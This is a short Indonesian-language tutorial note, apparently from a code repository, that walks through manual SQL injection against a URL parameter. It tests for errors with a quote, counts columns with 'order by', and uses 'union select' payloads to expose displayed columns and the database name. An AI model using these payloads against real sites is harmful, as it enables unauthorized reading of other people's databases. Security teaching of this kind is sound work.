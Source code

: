# Cari Paramter Vulner

Dengan menggunakan petik atau lainnya `'`.
Jika muncul error maka vulner.
Lanjut untuk query injection.

```
?param=1' order by 1--+-
```

Untuk mencari berapa jumlah kolom pada tabel angka satu di urutkan sampai menemukan error.
Setalah menemukan jumlah kolom maka lanjut dengan query untuk menampilkan tempat di mana kolom itu di letakkan.

```
?param=-1' union select 1,2,3--+-
```

Coba untuk menampilkan nama database

```
?param=-1' union select 1,database(),3--+-
```
